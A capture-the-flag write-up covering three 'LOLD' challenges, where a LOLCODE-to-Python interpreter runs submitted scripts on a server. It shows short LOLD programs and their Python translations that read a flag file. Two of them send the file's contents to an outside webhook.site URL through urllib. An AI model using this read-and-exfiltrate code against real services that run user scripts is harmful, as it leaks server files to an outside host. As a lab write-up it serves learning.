





# LOLD 1,2,3 - Scripting

We were in all 3 challenges the same python2 file

and i use this command to compile LOLD code to python

```
$ python2 lolpython.py --convert code.lold && python2 code.py 
```

## LOLD (easy)


> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND FLAG IS EVEN AT /flag.txt.

Started by understanding basic instructions.

```
VISIBLE was translated to print
CAN HAZ to (
OK to )
THING to ()
```



I wrote a LOLD program to print `/flag.txt`
```
f CAN HAZ open WIT '/flag.txt' OK
VISIBLE f OWN read THING
```
so that was translated to python:
```py
f = open ( '/flag.txt' ) 
print f . read ()
```
and that worked and gaved us the flag



## Curiosity 

At this point i was curious on what i can really do here. I was given possibly a docker machine and i could run anything. Maybe they have more code there. What can i really find here?

Did an `ls` and reallized i was at `/`. Surely i was in a docker.

I searched and found the code was at `/opt/challenge/`. 

4 files:
- flag.txt \
contains the flag!
- test.py \
maybe an admin added that there to test the challenge
- lolpython.py \
our source code
- entry.py \
ahh here we go. That program is the connection. We give it code, it compile and save it to `/tmp` and runs it.

## LOLD 2 (medium)

> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! AND FLAG IS EVEN AT /flag.txt! 

I run the same program but this time i couldnt find a way to print since they just replied if the run was succeful or not.

I just had to do a call an request and send the containts of the `/flag.txt` file.

And why read the `/flag.txt` when we already know its the same in `/opt/challenge/flag.txt`

```
GIMME urllib
f CAN HAZ open WIT '/opt/challenge/flag.txt' OK 
flag CAN HAZ f OWN read THING
VISIBLE urllib OWN urlopen WIT " https://webhook.site/<REDACTED>?LOLD2= " ALONG WITH flag OK OWN read THING
```
```py
import urllib 
f = open ( '/opt/challenge/flag.txt' ) 
flag = f . read ()
print urllib . urlopen ( ' https://webhook.site/<REDACTED>?LOLD2= ' + flag ) . read ()
```




## LOLD 3 (hard)

> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! BUT URGHHHH NOW WE HAVE LOST THE FLAG!?! YOU HAZ TO FIND IT!! 

Well we already know what to do ;)

```
GIMME urllib
f CAN HAZ open WIT '/opt/challenge/flag.txt' OK 
flag CAN HAZ f OWN read THING
VISIBLE urllib OWN urlopen WIT " https://webhook.site/<REDACTED>?LOLD3= " ALONG WITH flag OK OWN read THING
```
```py
import urllib 
f = open ( '/opt/challenge/flag.txt' ) 
flag = f . read ()
print urllib . urlopen ( ' https://webhook.site/<REDACTED>?LOLD3= ' + flag ) . read ()
```

